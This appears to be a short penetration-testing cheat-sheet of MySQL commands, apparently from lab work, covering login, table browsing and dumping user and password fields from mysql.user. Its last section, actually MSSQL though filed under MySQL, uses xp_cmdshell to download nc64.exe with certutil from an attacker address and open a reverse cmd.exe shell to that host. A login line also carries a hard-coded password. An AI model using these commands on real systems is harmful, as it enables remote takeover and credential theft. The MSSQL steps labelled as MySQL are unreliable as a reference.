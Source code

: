 __tags: mysql technique

## login with password

```
mysql -u root -pGkEWXn4h4g8qx9fZ1 -h academy
```

## login to specific port

```
mysql -h 10.10.10.215 -P 33060
```

## Navigate through tables:

```
show tables;
show tables from {DB};
SELECT * FROM users;

# Select Database:
use DATABASE
```

## Show Databases:

```
show databases;
```

## Show Table Columns
```
describe {table}
```

## mySQL Basic survival kit:

```
#login:
mysql -u user -p

show tables from mysql;

select current_user(); 
select schema();

select * from mysql.user;
select user, password, host from mysql.user;

show events;

```

## Use `enable_xp_cmdshell` to run commands from sql
```bash
## login to mysql server as sa
enable_xp_cmdshell
xp_cmdshell whoami
EXEC xp_cmdshell

EXEC xp_cmdshell 'certutil -urlcache -split -f
http://10.10.14.9:4000/nc64.exe C:\Users\sql_svc\Desktop\nc64.exe';

EXEC xp_cmdshell 'C:\Users\sql_svc\Desktop\nc64.exe -e cmd.exe 10.10.14.9 4455';
```